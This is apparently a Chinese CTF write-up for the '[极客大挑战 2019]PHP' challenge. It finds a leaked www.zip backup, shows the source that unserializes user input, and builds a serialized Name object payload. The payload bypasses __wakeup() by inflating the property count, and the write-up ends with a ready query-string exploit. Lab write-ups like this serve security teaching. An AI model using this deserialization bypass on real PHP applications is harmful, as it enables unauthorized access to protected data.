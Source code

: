# \[极客大挑战 2019]PHP

## \[极客大挑战 2019]PHP

## 考点

* 备份文件
* 反序列化
* `__wakeup()`绕过

## wp

提示的找备份文件，发现`www.zip`源码泄露

index.php有个反序列化

```php
<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>
```

class.php给了Name类

```php
<?php
include 'flag.php';
error_reporting(0);
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function __wakeup(){
        $this->username = 'guest';
    }
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();         
        }
    }
}
?>
```

根据代码，username是admin，password是100。但是`__wakeup()`会把username重新赋值为guest，修改属性数量绕过。

```php
<?php
class Name{
    private $username = 'admin';
    private $password = 100;
}
$s = serialize(new Name());
echo urlencode($s);
?>
// O%3A4%3A%22Name%22%3A2%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```

把Name后表示属性数量的2改成3即可

```
?select=O%3A4%3A%22Name%22%3A3%3A%7Bs%3A14%3A%22%00Name%00username%22%3Bs%3A5%3A%22admin%22%3Bs%3A14%3A%22%00Name%00password%22%3Bi%3A100%3B%7D
```
